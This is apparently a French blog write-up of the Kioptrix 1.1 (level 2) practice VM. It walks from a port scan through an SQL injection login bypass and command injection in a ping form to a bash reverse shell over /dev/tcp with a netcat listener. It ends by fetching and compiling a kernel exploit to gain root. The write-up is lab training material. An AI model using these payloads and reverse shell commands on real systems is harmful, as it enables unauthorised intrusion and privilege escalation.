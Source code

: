 ```yaml
---
layout: post
title: Writeup Kiopitrix 1.1 , Lvl 2
---
```


![pwn]({{ site.baseurl }}/images/kiopitrix-1-1/pwn.jpeg){:class="img-responsive"}

Comme toujours, la première étape d'une analyse de vulnérabilités consiste à faire un scan des ports de la machine que l'on souhaite attaquer :

```
Nmap scan report for 192.168.122.184
Host is up (0.018s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
631/tcp  open  ipp
3306/tcp open  mysql
```

Ici on voit que plusieurs ports sont ouverts, débutons par une analyse rapide de ceux qui sont les plus intéressants.

Sur le port 80 tourne une application web qui demande un login et un mot de passe :

![]({{ site.baseurl }}/images/kiopitrix-1-1/img1.png){:class="img-responsive"}

On sait grâce au scan que tourne une base de données sur le serveur, tentons alors une injection SQL en plaçant `'='` dans chacun des champs :

> Voici un lien qui m'a servis de référence : http://www.bases-hacking.org/sql-injection.html

![]({{ site.baseurl }}/images/kiopitrix-1-1/img2.png){:class="img-responsive"}

Comme on le voit, une redirection immédiate a  lieu vers ce qui semble être une application permettant de faire un ping vers une IP.

Ping étant une commande bash, il doit forcément y avoir un moyen de passer des commandes la dedans :

![]({{ site.baseurl }}/images/kiopitrix-1-1/img3.png){:class="img-responsive"}

Ici, on a réussi à injecter une commande en écrivant `;cat index.php` dans le formulaire.
Le **;** permet en bash d'exécuter une commande à la suite de l'autre sous la forme d'une séquence.

Vérifions sous quel utilisateur nous exécutons les commandes et quel est la version de l'OS du serveur :

![]({{ site.baseurl }}/images/kiopitrix-1-1/img4.png){:class="img-responsive"}

Nous sommes donc ici identifié en tant qu'apache qui est l'utilisateur du serveur web du même nom. Pour rappel nous devons ici obtenir les droits root sur la machine pour valider l'exercice. 

On voit ici que la version du noyaux est assez ancienne, essayons de trouver une faille dans ce dernier :

![]({{ site.baseurl }}/images/kiopitrix-1-1/img5.png){:class="img-responsive"}


Reste maintenant à trouver un moyen d'exécuter un shell interactif pour lancer l'exploit.
Pour se faire on va exploiter un [reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
Notre choix va se porter ici sur un reverse shell bash qui ressemble à ceci :

```
bash -i >& /dev/tcp/IP_To_Connect/Port_To_Connect 0>&1
```
Du coté de notre machine on va simplement lancer **netcat** en mode interactif :

```
sudo nc -lvp 666
```
Sur l'application web, on lance le reverse shell :

```
; bash -i >& /dev/tcp/192.168.122.1/666  0>&1
```
Voici ce que l'on obtiens :

```
Listening on [0.0.0.0] (family 0, port 666)
Connection from [192.168.122.184] port 666 [tcp/*] accepted (family 2, sport 32813)
bash: no job control in this shell
bash-3.00$ id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-3.00$ 
```
On a donc un shell exécuté avec l'user **apache**, utilisons notre exploit :

Sur notre machine on va utiliser un serveur web basique en python qui atteint les fichiers du répertoire courant (il est disponible par défaut):

```
wget https://www.exploit-db.com/download/9542.c
sudo python -m SimpleHTTPServer 80
```

Côté serveur on va faire récupérer et compiler l'exploit avant de l'exécuter:

```
bash-3.00$ cd /tmp
bash-3.00$ wget 192.168.122.1/9542.c
--22:42:29--  http://192.168.122.1/9542.c
           => `9542.c.1'
Connecting to 192.168.122.1:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,674 (2.6K) [text/plain]
    0K ..                                                    100%   42.50 MB/s
22:42:29 (42.50 MB/s) - `9542.c.1' saved [2674/2674]
bash-3.00$ gcc -o exp 9542.c
9542.c:109:28: warning: no newline at end of file
bash-3.00$ ./exp
sh: no job control in this shell
sh-3.00# id 
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00# 
```

Bingo ! Nous sommes root sur la machine !

## Conclusion : 

Pour conclure, on peut dire que cette machine virtuelle nous met en situation réaliste de test d'intrusion. Les failles sont certes éxagerées de par l'ancienneté de l'OS et de ses applicatifs mais on prend en main un workflow de test d'intrusion réaliste. 

Il existe certainement d'autres failles sur cette machine virtuelle, si je les trouve j'en ferais part ici. 
